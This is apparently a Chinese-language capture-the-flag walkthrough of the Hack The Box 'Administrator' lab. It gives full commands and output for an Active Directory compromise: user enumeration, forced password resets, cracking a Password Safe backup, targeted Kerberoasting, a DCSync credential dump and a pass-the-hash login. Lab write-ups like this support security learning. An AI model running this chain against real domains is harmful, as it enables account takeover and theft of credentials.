





## Box Info

| OS | Windows |
| --- | --- |
| Difficulty | Medium |

As is common in real life Windows pentests, you will start the Administrator box with credentials for the following account: Username: `Olivia` Password: `ichliebedich`

## Nmap

```
┌──(root㉿kali)-[/home/kali/Administrator]
└─# nmap -sSCV -Pn administrator.htb
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-05 15:51 CST
Nmap scan report for administrator.htb (10.10.11.42)
Host is up (0.072s latency).
Not shown: 988 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-12-05 14:37:40Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: administrator.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: administrator.htb0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: 6h46m00s
| smb2-time: 
|   date: 2024-12-05T14:37:51
|_  start_date: N/A
```

## Crackmapexec

通过SMB服务，获取到了当前存在的用户信息

```
┌──(root㉿kali)-[/home/kali/Administrator]
└─# crackmapexec smb administrator.htb -u "Olivia" -p "ichliebedich" --rid-brute | grep SidTypeUser
SMB    administrator.htb 445    DC     500: ADMINISTRATOR\Administrator (SidTypeUser)
SMB    administrator.htb 445    DC     501: ADMINISTRATOR\Guest (SidTypeUser)
SMB    administrator.htb 445    DC     502: ADMINISTRATOR\krbtgt (SidTypeUser)
SMB    administrator.htb 445    DC     1000: ADMINISTRATOR\DC$ (SidTypeUser)
SMB    administrator.htb 445    DC     1108: ADMINISTRATOR\olivia (SidTypeUser)
SMB    administrator.htb 445    DC     1109: ADMINISTRATOR\michael (SidTypeUser)
SMB    administrator.htb 445    DC     1110: ADMINISTRATOR\benjamin (SidTypeUser)
SMB    administrator.htb 445    DC     1112: ADMINISTRATOR\emily (SidTypeUser)
SMB    administrator.htb 445    DC     1113: ADMINISTRATOR\ethan (SidTypeUser)
SMB    administrator.htb 445    DC     3601: ADMINISTRATOR\alexander (SidTypeUser)
SMB    administrator.htb 445    DC     3602: ADMINISTRATOR\emma (SidTypeUser)
```

## Bloodhound

```
┌──(root㉿kali)-[/home/kali/Administrator]
└─# bloodhound-python -u Olivia -p 'ichliebedich' -c All -d administrator.htb -ns 10.10.11.42
INFO: Found AD domain: administrator.htb
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: [Errno Connection error (dc.administrator.htb:88)] [Errno -2] Name or service not known
INFO: Connecting to LDAP server: dc.administrator.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: dc.administrator.htb
INFO: Found 11 users
INFO: Found 53 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: dc.administrator.htb
INFO: Done in 00M 14S
```

添加`dc.administrator.htb`到/etc/hosts

经过分析Olivia是可以控制michael的



Michael可以强制修改Benjamin的密码


## User

首先先修改Michael的密码

```
┌──(root㉿kali)-[/home/kali/Administrator]
└─# bloodyAD -u "olivia" -p "ichliebedich" -d "Administrator.htb" --host "10.10.11.42" set password "Michael" "12345678"
[+] Password changed successfully!
```

然后用Michael的账户去修改Benjamin的密码

```
┌──(root㉿kali)-[/home/kali/Administrator]
└─# bloodyAD -u "Michael" -p "12345678" -d "Administrator.htb" --host "10.10.11.42" set password "Benjamin" "12345678"
[+] Password changed successfully!
```

使用FTP登录，发现存在备份文件

```
┌──(root㉿kali)-[/home/kali/Administrator]
└─# ftp administrator.htb           

Connected to administrator.htb.
220 Microsoft FTP Service
Name (administrator.htb:kali): Benjamin
331 Password required
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
229 Entering Extended Passive Mode (|||62217|)
125 Data connection already open; Transfer starting.
10-05-24  08:13AM                  952 Backup.psafe3
226 Transfer complete.
ftp> get Backup.psafe3
local: Backup.psafe3 remote: Backup.psafe3
229 Entering Extended Passive Mode (|||62224|)
125 Data connection already open; Transfer starting.
100% |*******************************************************************|   952        7.19 KiB/s    00:00 ETA
226 Transfer complete.
WARNING! 3 bare linefeeds received in ASCII mode.
File may not have transferred correctly.
952 bytes received in 00:00 (4.76 KiB/s)
ftp> exit
221 Goodbye
```

psafe3文件是加密的密码安全文件

无法直接读取，需要使用`pwsafe2john`工具进行获取hash，卡kali自带有

```
┌──(root㉿kali)-[/home/kali/Administrator]
└─# pwsafe2john Backup.psafe3  
Backu:$pwsafe$*3*4ff588b74906263ad2abba592aba35d58bcd3a57e307bf79c8479dec6b3149aa*2048*1a941c10167252410ae04b7b43753aaedb4ec63e3f18c646bb084ec4f0944050
```

拿到hash，尝试进行解密

```
┌──(root㉿kali)-[/home/kali/Administrator]
└─# john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (pwsafe, Password Safe [SHA256 128/128 AVX 4x])
Cost 1 (iteration count) is 2048 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
tekieromucho     (Backu)     
1g 0:00:00:00 DONE (2024-12-05 23:24) 4.761g/s 29257p/s 29257c/s 29257C/s newzealand..iheartyou
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

得到密码是`tekieromucho`

安装Passwordsafe到kali中，然后用密码打开这个文件



将三个用户的PASSWORD复制下来

```
alexander:UrkIbagoxMyUGw0aPlj9B0AXSea4Sw
emily:UXLCI5iETUsIBoFVTj8yQFKoHjXmb
emma:WwANQWnmJnGV07WQN8bMS7FMAbjNur
```

由于目标机器上的5985端口是开放的，可以使用evil-winrm远程登录

```
┌──(root㉿kali)-[/home/kali/Administrator]
└─# evil-winrm -i administrator.htb -u emily -p "UXLCI5iETUsIBoFVTj8yQFKoHjXmb"
```



## Privilege Escalation

Emliy对Ethan可以权限写入


### Own Ethan

因为Emliy对Ethan的权限，可以使用Targeted Kerberoasting攻击

targetedKerberoast 是一个 Python 脚本，与许多其他脚本（例如 [GetUserSPNs.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py)）一样，它可以为设置了 SPN 的用户帐户打印 “kerberoast” 哈希值。 该工具带来了以下附加功能：对于每个没有 SPN 的用户，它会尝试设置一个（**滥用对属性的写入权限**），打印 “kerberoast” 哈希，并删除为该操作设置的临时 SPN。

\[github author="ShutdownRepo" project="targetedKerberoast"\]\[/github\]

```
┌──(root㉿kali)-[/home/kali/Administrator/targetedKerberoast]
└─# python targetedKerberoast.py -u "emily" -p "UXLCI5iETUsIBoFVTj8yQFKoHjXmb" -d "Administrator.htb" --dc-ip 10.10.11.42
[*] Starting kerberoast attacks
[*] Fetching usernames from Active Directory with LDAP
[+] Printing hash for (ethan)
$krb5tgs$23$*ethan$ADMINISTRATOR.HTB$Administrator.htb/ethan*$15ec7606ffa3297b86b280475f514f9c$2e4d87fb991fa421183d34d1f57dc6eff6cf90d47f165e99e8caa4042a91278d9ae1897d9b5bd1c4938ae952b02b253b63207405bb7f66b8509c614b4e8a0fe9bff6e4ae67a8c6df5ce80d08d1e2f0cc78389f94289f4fe121f402cf1d8a411db8e49116ae92534989d03f740899d01f2f264273ad4da38a5537fde4c4d629961839c4a7916a3f246240ce1e50602d648a17d05384131d1729c9debfe576e9a37bf347899896e9df8bec3b2ac16110da971e0142ef5435bb73ee2fca6baf923ad26540ff42b735d73ff730cdb075026d0646247db541b3c824a2c8fef6c72572d06c64f341778b0456cbf6376f22bc444228cc4fef86c8bb62093c7081daf6ab75c809508c2ca0ab0fe679e1dbbd753441316d58d1245fdcd9e1b8ef58faa2c71ae319296eeda923da7a42677e65a7ab048b694ea8f880bb021740f94eb4f9b1416d37cd75f41c2b9d045370890611857ae2576e117c1ca52de93918d7104e95c95cd130b2d06805d6c99d5c13b61ab0040f02117accc14a8ad06e2f6d66103c07e9e96a6a2a94f4a12e34e9c3f8b46a305e778a17958128465967076c0365d7c87bb6c517d8ab27d1a89f582a72e303bf0ac54c1c7d2fbe80b2500cab320cdbac803fdfa2c8a54e8db9870a5dd73193a85878752373da71d223e8cdd47dcd2ba3c3b353bc5f1af493da902c90b5a26a218aa6875ff9ffa5bc8bc2f1f90d65502819f01f3c8539950c1d905b2bd803145cfd603a6d75a654ce2c83210b59ed9e6c232841a7d6f5e706072e8e9ed38baaf4c04640841726e61a7f484e900ef1515480ba9b337f80c9cc9d0f974aff33b83897d340a925ab084d60914f708eb5cb917c91ecb362b490f2da965fc476956c7f2d9968ed61b10bdacd2c371955253ebbddfbfc97ee2b38badec0413bca0ec1e11aa44429c6d3d9ab73aaa4a1425fbf23123260c42ed28229e3b766ed0c5682eb6b097b315f72b8ce387978525b3800229f5a0980de2b1f947168c6956d06c8ad9178aefd34addba5e3c9f719619aa29301579cd426415ae8c9d832a93ce3beccf70b58340e949b12e9e6d9d7ef80a3b5852f0e372ba786237cb3f6b2a2738a3b70fd070f5ecd59e5cab52cb145113fc0f4832ba7adc297d6a01167773f9a9a3a5302a0c6a672b1437372d349752350778db5dcdb5f986a7b3110d2584d12a21d32960c061d0f5a60f182257b8954fcd13936b14ef1c6cd5396b2d3549971d83ef116fe4e65916c73f7d231e1c7c99bd82854b152c016f663ecc4c962a30dce3569f088398f8d230996901bfa72f3427ede4d73d1f7b8828fe098c958867c3bd9017002c3e74fbe73650d05228039b57c916ae017e89859afb79c9fb951c815476495819840ae9468fdb66d6ee687de54fed4724c77eee4bd4f9b4995005f644e2b1a58f87deb91088ec9e318fe9d1f6b34a33f6e2e001c2a0e3c0d7f463376a5e3827fadf2a88d6f79d73188b207e06b3207700a5929dd3b6d7fe47bb71402d1881a49a990f0472d912937b66825
```

如果上面无法执行，可以尝试同步时区，因为Kerberos的认证对时间校准很严格

```
┌──(root㉿kali)-[/home/kali/Administrator]
└─# ntpdate administrator.htb
```

解密hash

```
┌──(root㉿kali)-[/home/kali/Administrator]
└─# john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
limpbizkit       (?)     
1g 0:00:00:00 DONE (2024-12-06 17:35) 100.0g/s 512000p/s 512000c/s 512000C/s newzealand..babygrl
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

得到Ethan的密码：`limpbizkit`

检查Ethan



### Ablout DCSync

From here: [DCSync(bloodhoundenterprise.io)](https://support.bloodhoundenterprise.io/hc/en-us/articles/17322385609371-DCSync)

此边缘表示 GetChanges 和 GetChangesAll 的组合。这两个权限的组合授予主体执行 DCSync 攻击的能力。

通过这个来获取Administrator的密码hash

### secretsdump

Secretsdump.py 是 Impacket 框架中的一个脚本，该脚本也可以通过 DCSync 技术导出域控制器上用户的哈希。该工具的原理是首先使用提供的用户登录凭据通过 smbexec 或者 wmiexec 远程连接至域控制器并获得高权限，进而从注册表中导出本地帐户的哈希，同时通过 Dcsync 或从 NTDS.dit 文件中导出所有域用户的哈希。其最大的优点是支持从域外的计算机连接至域控制器。

```
┌──(root㉿kali)-[/home/kali/Administrator]
└─# impacket-secretsdump "Administrator.htb/ethan:limpbizkit"@"dc.Administrator.htb"
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:3dc553ce4b9fd20bd016e098d2d2fd2e:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:1181ba47d45fa2c76385a82409cbfaf6:::
administrator.htb\olivia:1108:aad3b435b51404eeaad3b435b51404ee:fbaa3e2294376dc0f5aeb6b41ffa52b7:::
administrator.htb\michael:1109:aad3b435b51404eeaad3b435b51404ee:d023170ba78a12d11621d96043280763:::
administrator.htb\benjamin:1110:aad3b435b51404eeaad3b435b51404ee:d023170ba78a12d11621d96043280763:::
administrator.htb\emily:1112:aad3b435b51404eeaad3b435b51404ee:eb200a2583a88ace2983ee5caa520f31:::
administrator.htb\ethan:1113:aad3b435b51404eeaad3b435b51404ee:5c2b9f97e0620c3d307de85a93179884:::
administrator.htb\alexander:3601:aad3b435b51404eeaad3b435b51404ee:cdc9e5f3b0631aa3600e0bfec00a0199:::
administrator.htb\emma:3602:aad3b435b51404eeaad3b435b51404ee:11ecd72c969a57c34c819b41b54455c9:::
DC$:1000:aad3b435b51404eeaad3b435b51404ee:cf411ddad4807b5b4a275d31caa1d4b3:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:9d453509ca9b7bec02ea8c2161d2d340fd94bf30cc7e52cb94853a04e9e69664
Administrator:aes128-cts-hmac-sha1-96:08b0633a8dd5f1d6cbea29014caea5a2
Administrator:des-cbc-md5:403286f7cdf18385
krbtgt:aes256-cts-hmac-sha1-96:920ce354811a517c703a217ddca0175411d4a3c0880c359b2fdc1a494fb13648
krbtgt:aes128-cts-hmac-sha1-96:aadb89e07c87bcaf9c540940fab4af94
krbtgt:des-cbc-md5:2c0bc7d0250dbfc7
administrator.htb\olivia:aes256-cts-hmac-sha1-96:713f215fa5cc408ee5ba000e178f9d8ac220d68d294b077cb03aecc5f4c4e4f3
administrator.htb\olivia:aes128-cts-hmac-sha1-96:3d15ec169119d785a0ca2997f5d2aa48
administrator.htb\olivia:des-cbc-md5:bc2a4a7929c198e9
administrator.htb\michael:aes256-cts-hmac-sha1-96:2cfba91e8b2411fe101652e9c51519e40d6c54267d637ee78e7a0d2da917b8cc
administrator.htb\michael:aes128-cts-hmac-sha1-96:c5c5efed81e1b0f853fb768e72fa061a
administrator.htb\michael:des-cbc-md5:1cb3fd7079a16808
administrator.htb\benjamin:aes256-cts-hmac-sha1-96:31e42287be65cb2cfbd6057358db7bc312328b4d9b3956888b13405d891bb4cc
administrator.htb\benjamin:aes128-cts-hmac-sha1-96:2771ac747ccbaef1686dc55bd542779c
administrator.htb\benjamin:des-cbc-md5:37a4e09ea24ce03e
administrator.htb\emily:aes256-cts-hmac-sha1-96:53063129cd0e59d79b83025fbb4cf89b975a961f996c26cdedc8c6991e92b7c4
administrator.htb\emily:aes128-cts-hmac-sha1-96:fb2a594e5ff3a289fac7a27bbb328218
administrator.htb\emily:des-cbc-md5:804343fb6e0dbc51
administrator.htb\ethan:aes256-cts-hmac-sha1-96:e8577755add681a799a8f9fbcddecc4c3a3296329512bdae2454b6641bd3270f
administrator.htb\ethan:aes128-cts-hmac-sha1-96:e67d5744a884d8b137040d9ec3c6b49f
administrator.htb\ethan:des-cbc-md5:58387aef9d6754fb
administrator.htb\alexander:aes256-cts-hmac-sha1-96:b78d0aa466f36903311913f9caa7ef9cff55a2d9f450325b2fb390fbebdb50b6
administrator.htb\alexander:aes128-cts-hmac-sha1-96:ac291386e48626f32ecfb87871cdeade
administrator.htb\alexander:des-cbc-md5:49ba9dcb6d07d0bf
administrator.htb\emma:aes256-cts-hmac-sha1-96:951a211a757b8ea8f566e5f3a7b42122727d014cb13777c7784a7d605a89ff82
administrator.htb\emma:aes128-cts-hmac-sha1-96:aa24ed627234fb9c520240ceef84cd5e
administrator.htb\emma:des-cbc-md5:3249fba89813ef5d
DC$:aes256-cts-hmac-sha1-96:98ef91c128122134296e67e713b233697cd313ae864b1f26ac1b8bc4ec1b4ccb
DC$:aes128-cts-hmac-sha1-96:7068a4761df2f6c760ad9018c8bd206d
DC$:des-cbc-md5:f483547c4325492a
[*] Cleaning up... 
```

然后使用evil-winrm的hash登录就行

```
┌──(root㉿kali)-[/home/kali/Administrator]
└─# evil-winrm -i administrator.htb -u administrator -H "3dc553ce4b9fd20bd016e098d2d2fd2e"
```



## Summary

这个machine感觉还是比较友好的。

通过Bloodhound对域内用户进行分析，可以更好的确定攻击的方向和顺序。

多打才能多学，windows我吃定你了😡。
